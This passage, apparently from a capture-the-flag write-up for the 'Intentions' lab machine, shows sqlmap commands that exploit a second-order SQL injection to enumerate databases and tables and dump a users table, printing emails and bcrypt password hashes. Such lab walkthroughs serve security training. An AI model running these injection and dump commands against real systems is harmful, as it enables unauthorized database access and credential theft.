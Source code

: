 

#### Enumerate

I'll add `--dbs` to the end and it prints the two db names:



    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 --dbs
    ...[snip]...
    [16:43:51] [INFO] fetching database names
    available databases [2]:
    [*] information_schema
    [*] intentions
    ...[snip]...



Replacing `--dbs` with `-D intentions --tables` will list the tables in
`intentions`:



    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions --tables
    ...[snip]...
    [16:44:50] [INFO] fetching tables for database: 'intentions'
    Database: intentions
    [4 tables]
    +------------------------+
    | gallery_images         |
    | migrations             |
    | personal_access_tokens |
    | users                  |
    +------------------------+
    ...[snip]...



Replacing `--tables` with `-T users --dump` will dump that table:


    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions -T users --dump                              
    ...[snip]...
    Database: intentions
    Table: users
    [28 entries]
    +----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
    | id | email                         | name                     | genres                         | admin   | password                                                     | created_at          | updated_at          |
    +----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
    | 1  | steve@intentions.htb          | steve                    | food,travel,nature             | 1       | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa | 2023-02-02 17:43:00 | 2023-02-02 17:43:00 |
    | 2  | greg@intentions.htb           | greg                     | food,travel,nature             | 1       | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m | 2023-02-02 17:44:11 | 2023-02-02 17:44:11 |
    | 3  | hettie.rutherford@example.org | Melisa Runolfsson        | food,travel,nature             | 0       | $2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 4  | nader.alva@example.org        | Camren Ullrich           | food,travel,nature             | 0       | $2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 5  | jones.laury@example.com       | Mr. Lucius Towne I       | food,travel,nature             | 0       | $2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 6  | wanda93@example.org           | Jasen Mosciski           | food,travel,nature             | 0       | $2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |